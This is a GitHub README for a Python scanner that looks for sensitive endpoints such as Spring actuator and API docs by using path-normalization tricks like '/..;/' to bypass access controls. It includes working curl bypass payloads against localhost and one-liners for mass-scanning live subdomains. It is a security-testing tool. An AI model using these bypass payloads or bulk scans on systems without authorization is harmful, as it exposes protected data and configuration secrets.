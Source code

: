 [中文版](https://xz.aliyun.com/t/12530)

# endpoints_explore
Endpoints Explorer is a Python script that employs multiple bypass rules to discover sensitive endpoints

## Overview
This script uses the aiohttp library to make asynchronous HTTP requests and scans the endpoints for sensitive information in a highly concurrent manner. The script attempts multiple bypass rules and returns as soon as sensitive information is found.

### Background
![app](https://github.com/wzqs/endpoints_explore/assets/71961807/a04e23a9-391b-48d7-9a6d-49fcc00a877f)

Users access through the app or browser, and the requests may pass through a CDN to a reverse proxy/load balancer. Based on the configuration, the request traffic is forwarded and routed to an API gateway, which then distributes the requests to various application services for processing.

In the backend architecture, each component completes its respective tasks by identifying the URI. If there are any parsing differences or conflicts between any of these components, it can lead to permission bypass vulnerabilities. Common situations include:

- Incompatibilities or conflicts between Tomcat/Jetty and servlet-based filter interceptors.
- Permission verification component and framework handling discrepancies leading to bypass.
- Nginx and Tomcat/Jetty conflicts.
- Improper Nginx configuration.
- Inadequate permission verification.


### Some Cases

```
# Status: 404 Not Found  OR  200
curl "https://127.0.0.1"

# Status: 404 Not Found OR 403 Forbidden
curl "https://127.0.0.1/actuator/env"

# Status: 404 Not Found
curl "https://127.0.0.1/v2/api-docs"

# Status: 404 Not Found
curl "https://127.0.0.1/nothing/actuator/env"
```

when discover the valid path /api/

```
# Status: 403 Forbidden
curl "https://127.0.0.1/api/actuator/env"

# Status: 404
curl "https://127.0.0.1/api/v2/api-docs"

# Status: 403
curl "https://127.0.0.1/api/users/query"

Response: {"message": "forbidden"}
```

to use some characters to bypass ACL

```
# Success
curl "https://127.0.0.1/api/..;/actuator;aaaa/env;.js"

# Success
curl "https://127.0.0.1/api/..;/v2/api-docs"

# Success
curl "https://127.0.0.1//api;/users/query"

Response: {"code":200,"status":0,"message":"SUCCESS","data":[{"users":"...
```


### Recommended Reading:

- https://i.blackhat.com/us-18/Wed-August-8/us-18-Orange-Tsai-Breaking-Parser-Logic-Take-Your-Path-Normalization-Off-And-Pop-0days-Out-2.pdf
- https://xz.aliyun.com/t/7544
- https://tttang.com/archive/1592/
- https://joychou.org/web/security-of-getRequestURI.html



## Features
- Tests with bypass rules(`/..;/`,`/;/`,`/;js/`,`/../`,`(double)urlencode` etc.)
- Performs highly concurrent scanning with asynchronous HTTP requests
- Supports checking if paths exist before scanning
- Filtered output for similar content


## Usage
First, you need to install the Python libraries that this script depends on, which can be installed with the following command:
```
pip install aiohttp asyncio colorama
```

Then, you can run this script with command-line arguments. Here is the basic usage of the script:
```
python3 endpoints_explorer.py <base_url> <normal_paths_dict> <sensitive_files_dict> [-c <concurrency>] [-v] [-e]
```
Here is a detailed explanation of the parameters:

- base_url: The base URL to scan.
- normal_paths_dict: The path to the normal paths dictionary.
- sensitive_files_dict: The path to the sensitive files dictionary.
- -c, --concurrency: The concurrency level, default is 5.
- -v, --verbose: Enable verbose output.
- -e, --check-existence: Check if the paths exist before scanning.

example:

```
$ cat sensitive_files_dict.txt

/actuator/env
/env
```
It's worth noting that the normal_paths_dict can be collected from active or passive crawling methods. This largely depends on the capabilities of your crawling tools and is not covered by the functionality of this script.

```
$ cat normal_paths_dict.txt

/api/
/manage/
```
screenshot:

![image](https://github.com/wzqs/endpoints_explore/assets/71961807/3556e555-18fd-4c5d-959c-fa7ab679f833)


### Tips
Although the script does not directly support multi-URL scanning, you can use it in conjunction with other security tools.

- Bulk scanning for sensitive information on live URLs
```
cat urls_list.txt | httpx -silent | parallel -j 50 -- python3 endpoints_explorer.py {} normal_paths_dict.txt sensitive_files_dict.txt -c 50 -e
```
- Automatically scan for sensitive information on live subdomains
```
subfinder -d example.com -silent | httpx -silent | xargs -I {} python3 endpoints_explorer.py {} normal_paths_dict.txt sensitive_files_dict.txt -c 50 -e
```

In a sense, this script serves as a permission bypass tool. 

### Notes

Please note that while the code has been thoroughly tested, there may be potential bugs and inaccuracies. The path existence checks are not foolproof and the scanning speed is influenced by factors like your own system, the target server, and network conditions. Be aware that high concurrency might impact the server's performance. Always ensure that you have proper authorization before initiating any scans to avoid legal or ethical issues. Use responsibly.

### TODO
- add more headers to requests to bypass rules
- generate the normal_paths_dict rules based on the domain
- add some ;%2f.. bypass rules  


## Disclaimer
This script is intended only for lawful, authorized security testing activities and must not be used for any illegal activities. Users are responsible for all consequences of using this script.

## Thanks

- [chatgpt](https://chat.openai.com/)
- https://github.com/ldbfpiaoran/springboot-acl-bypass
- https://github.com/projectdiscovery/pdtm
